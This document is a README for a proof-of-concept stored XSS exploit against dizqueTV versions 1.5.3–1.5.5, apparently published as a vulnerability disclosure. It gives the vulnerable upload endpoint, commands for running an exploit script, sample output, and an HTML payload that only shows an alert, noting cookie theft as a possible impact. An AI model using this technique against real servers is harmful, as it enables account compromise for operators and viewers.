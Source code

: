 # dizqueTV File Upload to XSS Exploit

## Overview
This exploit targets a file upload vulnerability in **dizqueTV** version 1.5.3. Due to insufficient sanitization in the file upload API, an attacker can upload arbitrary files, enabling potential **Cross-Site Scripting (XSS)** attacks. This exploit leverages the vulnerability to upload a crafted HTML file with embedded JavaScript.

**Exploit Author**: J3rich0123  
**Tested on**: Linux  
**Vendor**: [dizqueTV GitHub Repository](https://github.com/vexorian/dizquetv)  
**Version**: 1.5.3-1.5.5 (Required)  
**CVE**: N/A

## Vulnerable Component
The vulnerability resides in the file upload endpoint at `/api/upload/image`, which does not sanitize file contents or enforce strict file type restrictions. This allows the upload of files containing malicious code.

## Exploit Details
The exploit script creates and uploads an HTML file with a JavaScript-based XSS payload. Once uploaded, this payload can trigger on pages that render the file, potentially allowing the attacker to perform actions like cookie theft or redirection.

## Usage
### Prerequisites
- Python 3.x
- `requests` library

To install the required library:
```bash
pip install requests
```

Exploit Execution

Clone this repository.

Execute the exploit with the target URL as an argument:

```bash
python exploit.py <target_url>
```

Example usage:

```bash
python exploit.py http://localhost:8000/api/upload/image
```

Upon success, you’ll see confirmation messages indicating the file upload was successful.

Note: If the file renders in a browser with JavaScript enabled, the XSS alert will be triggered.

Example Output
plaintext

Reading malicious file: xss.html
Uploading malicious file: xss.html
Exploit successful! Attempted to upload: xss.html
Server response: (Server response message here)
PoC HTML Payload
The xss.html payload file created by this exploit contains:

html
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>XSS Payload</title>
    <script>alert("Hacked!!!");</script>
</head>
<body>
    <h1>Testing XSS Payload</h1>
    <p>If the alert shows, the XSS attack was successful!</p>
</body>
</html>
```
Remediation
This vulnerability has been reported to the vendor, and a patch will be released in the next version. The patch will address file type sanitization and restrictions.

Disclaimer
This exploit is intended for educational and ethical purposes only. Unauthorized use of this exploit may violate laws and regulations. Use it responsibly.


